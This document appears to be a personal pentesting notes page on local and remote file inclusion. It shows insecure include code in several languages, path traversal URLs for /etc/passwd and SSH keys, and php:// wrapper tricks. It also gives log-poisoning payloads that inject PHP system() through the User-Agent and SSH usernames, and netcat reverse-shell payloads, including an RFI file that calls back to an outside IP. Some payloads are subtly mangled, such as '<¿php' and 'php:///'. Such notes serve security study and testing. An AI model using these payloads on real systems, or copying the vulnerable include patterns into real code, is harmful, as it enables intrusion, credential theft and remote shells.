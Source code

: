 ```yaml
---
title: Notes | LFI
author: Zeropio
date: 2022-04-23
categories: [Notes, Vulnerabilities]
tags: [lfi]
permalink: /notes/vulnerabilities/lfi
---
```



# Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion. The most common place we usually find LFI within is templating engines, for example `/index.php?page=about`. Where `index.php` sets static content and the parameter `page` dinamically. LFI vulnerabilities can lead to source code disclosure, sensitive data exposure, and even remote code execution under certain conditions.

Some examples of insecure code:
- PHP 

```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```

- NodeJS 

```javascript
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```

- Express.js 

```javascript
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```

- Java 

```jsp
<c:if test="${not empty param.language}">
    <jsp:include file="<%= request.getParameter('language') %>" />
</c:if>
```

- .NET 

```cs
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %> 
}
```
```cs
@Html.Partial(HttpContext.Request.Query['language'])
```
```cs
<!--#include file="<% HttpContext.Request.Query['language'] %>"-->
```

## Read vs Execute

There are a difference in these functions between read and execute. Some of the above functions **only read** the content of the specified files, while others also **execute** the specified files:

| **Function**    | **Read content**   | **Execute**    | **Remote URL** |
|---------------- | --------------- | --------------- | -------------- |
| **PHP** |     
| `include()`/`include_once()` | ✅| ✅| ✅| 
| `require()`/`require_once()` | ✅| ✅ | ⬜️|
| `file_get_contents()` | ✅ | ⬜️ | ✅ |
| `fopen()`/`file()` | -✅ | ⬜️ | ⬜️ |

For example:
```
http://localhost/example.php?file=../../../../../../../etc/passwd
http://localhost/example.php?file=../../../../../../windows/system32/drivers/etc/hosts
```

With the terminal we can check easily:
```console
> curl -s "http://localhost/example.php?file=/etc/passwd"
```
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

###  Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
```console
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
```

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

###  Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
```php
<?passthru('nc -e /bin/bash <ip> <port>');?>
```
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
```console
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
```
- Then we send this "user" to the log:
```console
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
```
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
```


# Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
```php
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
```

Then we change the url with:
```
...?index=http://<ip>/revershell.txt
```
And then we can execute code.
